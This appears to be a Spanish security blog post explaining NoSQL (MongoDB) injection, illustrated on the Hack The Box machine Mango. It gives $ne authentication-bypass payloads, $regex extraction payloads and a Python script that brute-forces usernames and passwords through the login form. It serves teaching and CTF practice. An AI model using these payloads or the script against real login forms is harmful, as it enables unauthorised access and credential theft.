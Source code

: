 ```yaml
---
layout: post
author: Raúl Riesco
title: Inyecciones NoSQL (MongoDB) y extracción de información
---
```


## Explicación teórica

En alguna ocasión, y muy de refilón, había tenido que lidiar con bases de datos NoSQL para alguna cosa muy sencilla y puntual. Sin embargo, en cuestiones de seguridad, nunca me había topado con ellas.

No voy a explicar aquí lo que son las archiconocidas inyecciones SQL porque esto sólo pretende ser una nota personal y/o idea para una futura práctica, además de haber documentación a paladas en Internet para enterarse.

La idea principal es que poniendo el ejemplo de un formulario de login, una vez introducidos usuario y contraseña, estos se verificarán contra la BBDD NoSQL (en nuestro caso MongoDB) tal y como podría suceder con una BBDD SQL. La diferencia obvia entre una inyección SQL y una NoSQL es la gramática y la sintaxis. 

Puesto que las BBDD NoSQL no tienen un lenguaje estandarizado, haremos uso de algunos operadores para extraer información. Por ejemplo, en el caso que se comentaba de un formulario de login, podemos utilizar operadores como `$gt` (grater than, mayor que) o `$ne` (not equal, no igual a). Así las cosas, en el ejemplo del login que comentábamos, suponiendo que la petición se realiza por POST y con DATA una forma de hacer un bypass de la autenticación sería:

```http
username[$ne]=invent&password[$ne]=invent
```
Si el usuario/password no es `ìnvent` esta condición se cumple y habremos realizado el bypass de la autenticación.

De la misma forma, usando estos operadores, así como otro dedicado a las expresiones regulares: `$regex`, podremos ir extrayendo información de la base de datos. Vamos a demostrar que podemos obtener tanto los usuarios en primera instancia, como el password a partir de ellos:

```http
username[$ne]=invent&password[$regex]=r.*
```

Con esta sentencia, si el nombre de usuario no es `invent` y, además, el password cumple la expresión regular (que el valor de password empiece por r y vaya seguido de cualquier número y tipo de carácteres), tendremos una respuesta positiva de algún modo.

La idea sería ir iterando a través de todas las letras y carácteres del alfabeto con el fin de ir ensamblando los valores que nos den respuesta positiva y que, finalmente, formarán el usuario/password que buscamos.

## Caso práctico

### Authentication bypass

Veamos un caso práctico con la máquina Mango de Hack the box. 

Tenemos una pantalla de login tal que así:

![](../img/nosqli/mango_login.png)

Y el intento de login infructuoso, nos da como resultado una respuesta `200 OK`

![](../img/nosqli/1.png)

![](../img/nosqli/2.png)

Sin embargo, utilizando el primer payload que hemos visto, obtenemos un `302 Found`, que en el navegador comprobamos que se corresponde con una respuesta positiva de la base de datos y, por ende, en auténtico bypass de la autenticación:

![](../img/nosqli/3.png)


### Extracción de usuarios y contraseñas

Para este caso, vamos a usar un script disponible en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-urlencoded-body) pero ligeramente modificado para nuestras necesidades:

```python
import urllib3
import string
import urllib
import re
import time
urllib3.disable_warnings()

username=""
password=""
u="http://laquesea/"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
     for c in string.printable: #Si excluimos la a de todas las iteraciones y el user contiene la a... no lo sacará
            payload='username=%s&password[$regex]=^%s&login=login' %(username,re.escape(password + c))
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)

            if r.status_code == 302:
               print("Found one more char : %s" % (password+c))
               password += c
```
Puesto que primero queremos extraer los usuarios, utilizaremos una inyección que lo consiga mediante `$regex` en el username y un `$ne` que se cumpla en el campo password:

![](../img/nosqli/8.png)

Y vemos que el script funciona bien:

![](../img/nosqli/9.png)

Puede que haya más usuarios, ahora lanzaremos el script de la misma forma pero excluyendo usuarios que empiecen por `a` (sino volvería a salir `admin`):

![](../img/nosqli/10.png)

![](../img/nosqli/11.png)

Claro, el problema es que si excluimos la `a` de la iteración, si el nuevo nombre de usuario la contiene, no la encontrará y no podrá seguir extrayendo el username. Sabiendo ya que el nuevo usuario empieza por `m`, actuamos en consecuencia:

![](../img/nosqli/12.png)

![](../img/nosqli/13.png)

Teniendo ya los nombres de usuario, vamos a obtener sus contraseñas haciendo uso de ellos, utilizando esta vez la  inyección el el campo password:

![](../img/nosqli/14.png)

![](../img/nosqli/15.png)

![](../img/nosqli/16.png)

![](../img/nosqli/17.png)

Y esta es una explicación básica, sencilla y somera de las nociones de inyecciones NoSQL.

También existe la opción, un poco menos cómoda pero más sencilla, de realizar este proceso con [Burp Suite](https://rioasmara.com/2020/08/13/nosql-injection-and-bruteforce/)

